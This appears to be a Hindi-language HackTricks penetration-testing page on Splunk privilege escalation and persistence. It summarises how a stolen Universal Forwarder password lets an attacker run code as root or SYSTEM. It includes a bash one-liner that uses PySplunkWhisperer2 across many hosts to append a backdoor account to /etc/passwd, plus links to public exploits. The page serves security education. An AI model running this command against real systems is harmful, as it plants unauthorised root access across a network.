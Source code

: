 # Splunk LPE और स्थिरता

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

यदि **आंतरिक** या **बाहरी** रूप से किसी मशीन का **गणना** करते समय आपको **Splunk चलाते हुए** (पोर्ट 8090) मिलता है, यदि आपको किसी **मान्य क्रेडेंशियल** का पता है तो आप **Splunk सेवा का दुरुपयोग** करके **एक शेल** को उस उपयोगकर्ता के रूप में **निष्पादित** कर सकते हैं जो Splunk चला रहा है। यदि रूट इसे चला रहा है, तो आप रूट तक विशेषाधिकार बढ़ा सकते हैं।

यदि आप **पहले से ही रूट हैं और Splunk सेवा केवल लोकलहोस्ट पर सुन नहीं रही है**, तो आप **Splunk सेवा से** **पासवर्ड** फ़ाइल **चुरा सकते हैं** और **पासवर्ड** को **क्रैक** कर सकते हैं, या इसमें **नए** क्रेडेंशियल **जोड़ सकते हैं**। और होस्ट पर स्थिरता बनाए रख सकते हैं।

नीचे पहले चित्र में आप देख सकते हैं कि एक Splunkd वेब पृष्ठ कैसा दिखता है।

## Splunk यूनिवर्सल फॉरवर्डर एजेंट का शोषण सारांश

अधिक विवरण के लिए पोस्ट देखें [https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/)। यह केवल एक सारांश है:

**शोषण अवलोकन:**
Splunk यूनिवर्सल फॉरवर्डर एजेंट (UF) को लक्षित करने वाला एक शोषण उन हमलावरों को अनुमति देता है जिनके पास एजेंट पासवर्ड है, एजेंट चला रहे सिस्टम पर मनमाना कोड निष्पादित करने के लिए, संभावित रूप से पूरे नेटवर्क को खतरे में डालता है।

**मुख्य बिंदु:**
- UF एजेंट आने वाले कनेक्शनों या कोड की प्रामाणिकता को मान्य नहीं करता है, जिससे यह अनधिकृत कोड निष्पादन के लिए संवेदनशील हो जाता है।
- सामान्य पासवर्ड अधिग्रहण विधियों में उन्हें नेटवर्क निर्देशिकाओं, फ़ाइल शेयरों, या आंतरिक दस्तावेज़ों में ढूंढना शामिल है।
- सफल शोषण से समझौता किए गए होस्ट पर SYSTEM या रूट स्तर की पहुंच, डेटा निकासी, और आगे के नेटवर्क में घुसपैठ हो सकती है।

**शोषण निष्पादन:**
1. हमलावर UF एजेंट पासवर्ड प्राप्त करता है।
2. एजेंटों को आदेश या स्क्रिप्ट भेजने के लिए Splunk API का उपयोग करता है।
3. संभावित क्रियाओं में फ़ाइल निष्कर्षण, उपयोगकर्ता खाता हेरफेर, और सिस्टम का समझौता शामिल है।

**प्रभाव:**
- प्रत्येक होस्ट पर SYSTEM/रूट स्तर की अनुमतियों के साथ पूर्ण नेटवर्क समझौता।
- पहचान से बचने के लिए लॉगिंग को अक्षम करने की संभावना।
- बैकडोर या रैनसमवेयर की स्थापना।

**शोषण के लिए उदाहरण आदेश:**
```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```
**उपयोगी सार्वजनिक एक्सप्लॉइट्स:**
* https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
* https://www.exploit-db.com/exploits/46238
* https://www.exploit-db.com/exploits/46487


## Splunk क्वेरी का दुरुपयोग

**अधिक जानकारी के लिए पोस्ट देखें [https://blog.hrncirik.net/cve-2023-46214-analysis](https://blog.hrncirik.net/cve-2023-46214-analysis)**

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
